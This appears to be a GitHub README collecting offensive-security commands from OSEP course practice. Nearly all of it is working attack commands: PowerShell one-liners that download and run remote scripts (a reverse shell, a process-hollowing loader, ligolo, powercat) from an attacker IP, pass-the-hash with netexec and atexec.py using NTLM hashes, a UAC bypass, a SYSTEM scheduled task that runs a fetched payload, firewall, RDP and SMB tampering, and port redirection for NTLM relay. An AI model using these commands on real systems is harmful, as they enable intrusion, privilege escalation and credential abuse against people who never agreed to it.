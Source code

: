 Just a bunch of tools built/gathered along the OSEP course.
# Tunneling

- Make sure to convert agent.exe of ligolo to shellcode: `donut -f 1 -o agent.bin -a 2 -p "-connect your-server:11601 -ignore-cert" -i agent.exe`
- Make sure you are running as x64 bit process before running: Powershell: `[Environment]::Is64BitProcess` CMD: `set p` (Should show PROCESSOR_ARCHITECTURE=AMD64)
- Invoke it: `iex(iwr http://192.168.45.173:443/ligolo.ps1 -UseBasicParsing)`


# Map the network (using netexec)
- `nxc smb 172.16.125.0/24 --log hosts.txt` (for windows hosts)

- `nxc ssh 172.16.125.0/24 --log hosts.txt` (for linux hosts)

- `netexec smb 172.16.149.0/24 --log hosts.txt && sed -i 's/x64//g' hosts.txt && cat hosts.txt | awk '{print $9,$11,$11"."$21}' | sed 's/(domain://g' | sed 's/)//g' | uniq | sort -u | tr '[:upper:]' '[:lower:]' | sudo tee -a /etc/hosts` - Automation for `/etc/hosts` file

# Useful Basic Commands:

### <ins>Run command as another user</ins>:
- `Invoke-RunasCs amit 'Password123!' 'powershell iex(iwr http://192.168.45.185/rev.txt -usebasicparsing)' -ForceProfile -CreateProcessFunction 2 -BypassUac`

- `runas.exe /netonly /user:final.com\nina cmd.exe`

### <ins>Set up SMB server (file transfer)</ins>:
- `smbserver.py share $(pwd) -smb2support -username amit -password password` 

- On Victim: `net use \\192.168.45.223\share /U:amit password` 

- Copy files: `copy <FILENAME> \\192.168.45.223\share`

### <ins>Enable RDP and RestrictedAdmin from both Local/Remote</ins>:

Using command prompt: 
- `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f && reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0 && netsh firewall set service remoteadmin enable && netsh firewall set service remotedesktop enable` 

Using netexec:
- `netexec smb db01 -u administrator -H faf3185b0a608ce2f8afb6f8d133f85b --local-auth -X 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f;reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0;netsh firewall set service remoteadmin enable;netsh firewall set service remotedesktop enable' --exec-method atexec`

### <ins>RDP to host using xfreerdp</ins>:
- `xfreerdp /v:172.16.231.221 /u:amit /p:'Password123!' +dynamic-resolution +clipboard`

### ATEXEC.PY

- `atexec.py test.local/john:password123@10.10.10.1 whoami'`
- `atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 test.local/john@10.10.10.1 whoami`

# Escalate to SYSTEM via Schduele Task
- `schtasks /create /tn "SystemTask" /tr "powershell iex(iwr http://192.168.45.223/hollow.ps1 -useb)" /sc once /st 00:00 /ru SYSTEM`

- `schtasks /run /tn "SystemTask"`

# TCP Port Redirection via powercat.ps1
Mostly be used for NTLM Relay attacks when the authentication cannot reach our attacking machine, so the idea is to redirect it from a random host in the network (where we have admin privileges) to our attacking machine.

first step is to allow inbound and outbound connections to our victim machine:

### Using CMD:
- `netsh advfirewall firewall add rule name="Allow Port 445 Inbound" dir=in action=allow protocol=TCP localport=445`
- `netsh advfirewall firewall add rule name="Allow Port 445 Outbound" dir=out action=allow protocol=TCP remoteport=445`

### Using Powershell:
- `New-NetFirewallRule -DisplayName "Allow Port 445 Inbound" -Direction Inbound -Protocol TCP -LocalPort 445 -Action Allow`
- `New-NetFirewallRule -DisplayName "Allow Port 445 Outbound" -Direction Outbound -Protocol TCP -RemotePort 445 -Action Allow`

Now, we will need to disable the SMB port on the victim: 

*Note: Run one by one in CMD, no powershell!)*

    1. sc config LanmanServer start= disabled
    2. sc stop LanmanServer
    3. sc stop srv2
    4. sc stop srvnet

Next, we will invoke powercat.ps1: `iex(iwr http://192.168.45.223/powercat.ps1 -useb)` and run:
- `powercat -l -p 445 -r tcp:<PARROT IP>:445 -rep`

Once it's running we can check if the victim is listening on port 445: `netstat -anto | findstr 445`

Last step is to perform the Relay and see the callback to our machine on port 445 tunneled from the victim!
